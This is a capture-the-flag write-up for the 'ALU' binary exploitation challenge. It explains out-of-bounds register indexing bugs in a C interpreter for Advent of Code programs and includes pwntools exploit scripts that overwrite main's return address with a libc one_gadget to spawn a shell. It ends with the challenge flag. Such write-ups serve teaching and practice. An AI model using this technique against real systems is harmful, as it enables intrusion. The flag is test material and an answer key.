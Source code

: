 # 🩸 ALU
Have you tried the AoC 22 24 VM?

MD5 (alu.zip) = 8b04d09040e879f7558d59b14e9ef191

Author: enigmatrix

`nc challs.nusgreyhats.org 13500`

```sh
$ tree alu
alu
├── alu
├── alu.c
├── ld-2.31.so
└── libc-2.31.so
$ checksec alu/alu
[*] 'alu/alu'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

# Finding the bug
`alu` takes in a valid program from stdin and executes it. The language spec follows what's on the [AoC page](https://adventofcode.com/2021/day/24), and like any other AoC program, `alu.c` was written with 0 appreciation for the possibility of ill-formatted inputs.

The important bugs are over in `main()`:
```c
    int a = *(u_char*)(line + 4) - 'a'; // line[4] can be ANYTHING, important for later
    int b = bv.is_reg ? regs[bv.v] : bv.v; // trivial oob index
```
`int b` can become an OOB read because `bv.is_reg` can be true even when `bv.v >= 26`:
```c
    if ((('0' <= buf[0]) && (buf[0] <= '9')) || buf[0] == '-') {
        /* ... */
    } else { // buf[0] can be > 'z' !
        b.is_reg = true;
        b.v = *(u_char*)buf - 'a'; // easy oob index
    }
```
And the uncontrolled value of `int a` can be used for an OOB write:
```c
    if (strncmp(line, "inp", 3) == 0) {
        //...
    } else if (strncmp(line, "add", 3) == 0) {
        regs[a] += b;
    } else if { /* ... */ }
```

So, we have a read-anywhere followed by a write-anywhere. *Obviously*, we can use this to spawn a shell in a **single line of input**:
```python
>>> from pwn import *
>>> r = remote('challs.nusgreyhats.org', 13500)
[+] Opening connection to challs.nusgreyhats.org on port 13500: Done
>>> r.sendline(b'add \x9f 785022\n') # :thinking:
>>> r.interactive() # solved lol
```

## Wait, what??
So, let me try to explain.

First off, I didn't _actually_ only send one line. I sent one `add` line, and another empty line to return from the main function.

Why return to `main`? Because the `add` opcode was used to modify the return pointer of `main`, which experienced pwners will know as the special pseudosymbol `__libc_start_main_ret`. In this `add` command:
```c
    regs[a] += b;
```
`regs[a]` points to the return address of `main()`, and `b` is equivalent to `<some win function> - libc['__libc_start_main_ret']`. So, the return address of `main` will be changed to `<some win function>` after the first line of input. But, you ask:

> Where do I get `<some win function>`? Even libc's `system()` requires at least 1 argument.

This is where you must learn about the marvelous [one_gadget](https://github.com/david942j/one_gadget) project. There really exists a specific code address in `libc-2.31.so` that will simply give you a free shell.

```python
from pwnscripts import *
context.binary = 'alu'
context.libc = './libc-2.31.so'

r = remote('challs.nusgreyhats.org', 13500)
main_ret_index = 0xf8//4 # from gdb

r.sendlineafter(b'> ', b'add %s %d\n' % (
    p8(ord('a')+main_ret_index), # this is `a`
    context.libc.select_gadget(1)
   -context.libc.symbols['__libc_start_main_ret'] # this is `b`
))

r.interactive()
```
Unfortunately, I was unable to obtain the first blood for this challenge, as I signed up late for the CTF. But at least it looks nice, y'know?

## Flag
`grey{b6bee86b92aa5d4cd85bda82bd0e0317}`
